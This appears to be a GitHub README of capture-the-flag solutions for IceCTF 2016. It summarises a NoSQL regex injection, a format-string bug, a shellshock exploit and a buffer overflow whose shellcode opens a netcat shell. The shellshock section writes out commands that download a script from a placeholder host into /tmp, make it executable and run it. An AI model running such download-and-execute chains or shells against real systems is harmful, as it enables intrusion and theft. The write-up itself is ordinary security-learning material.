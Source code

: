 # IceCTF-2016-WriteUp
My solutions to some of the challenges in IceCTF 2016

## A Strong Feeling

The solution I implemented was based on bruteforcing the string character by character. A better solution would have been to script some automatic tool to find the correct input. Whatever.

## Chained In

This was a NoSQL Injection (is this name a thing?). The script does, once again, a bruteforce attack of the admin password (AKA the flag) in a character by character fashion. This is done by using a regex using the `$regex` operator of MongoDB.

## Dear Diary

String format vulnerability. Just pipe the output of the script into the CTF executable and you can see the flag (among other random stuff from memory).

Script: `dear_shit.py`

## Geocities

I exploited shellshock on `index.cgi` to download the simple DB dumper I wrote. Then I executed it and got the flag from the DB.

Usage:
```
geocities_shellshock.sh 'curl http://blabla/dumper.pl > /tmp/fuck.pl'
geocities_shellshock.sh 'chmod +x /tmp/fuck.pl'
geocities_shellshock.sh '/tmp/fuck.pl'
```

It was fun to see that a some people actually went beyond the scope of the CTF and left some "I was here" notes inside the source code of the website.

## So Close

This was a buffer overflow in which we couldn't overwrite the return address of the function, so things got a bit more complicated. Since I'm a n00b and I didn't know any better, I ended up using a ROP gadget from libc in order to bypass ASLR (`call ecx`) and then tried to run the shellcode many times until I succeeded (kinda like... bruteforcing). If you solved it in a sane way please drop me a line.

I rewrote the script I used in order to make it totally automatic... it is now too verbose but I think it's pretty clear what it does:

1. Overwrite a single byte of the value that `ebp` is gonna take at the end of the vulnerable function
2. Put the shellcode in the buffer
3. Fill the rest of the buffer with the address of my `call ecx` gadget
4. Wait for the magic to happen (AKA getting `libc`'s address right)
5. ...
6. PROFIT!

My shellcode lanched the shellscript `./bb` which in turn runs netcat and `/bin/sh`. It is created by the python exploit at runtime.

# Conclusion

The CTF was fun even though I didn't have much time to commit to it. Feel free to ask me any question or point me to better solutions if you want :)
